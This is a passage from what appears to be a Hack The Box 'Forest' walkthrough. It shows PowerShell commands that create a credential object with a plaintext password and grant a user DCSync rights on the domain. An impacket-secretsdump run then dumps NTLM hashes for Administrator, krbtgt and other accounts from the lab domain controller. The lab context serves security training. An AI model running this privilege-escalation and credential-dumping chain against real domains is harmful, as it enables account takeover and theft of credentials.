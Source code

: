 - Then we create a credential object  for our passwords and credentials for the user soulis we created earlier:
    
    ```bash
    $pass = convertto-securestring 'iterative77' -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential('HTB\soulis', $pass) 
    ```
    
- Then we run the following command to grant us DCSync rights on our account
- We run the following for DCSync rights on the account:
    
    ```bash
    Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity soulis -Rights DCSync
    ```
    
    ![changePerm](/assets/img/HTB/Forest_changePerm.png)
    
    - I can’t spell
- Secretsdump.py is a script from the Impacket Python library that can remotely steal credentials from an adversary's machine
    
    ```bash
    ➜  ~ impacket-secretsdump HTB/soulis:iterative77@10.10.10.161                                            
    Impacket v0.11.0 - Copyright 2023 Fortra                                                                 
                                                                                                             
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                       
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                            
    [*] Using the DRSUAPI method to get NTDS.DIT secrets                                                     
    htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::         
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                           
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::                          
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                  
    htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
    htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
    htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
    htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
    htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
    htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
    htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
    htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 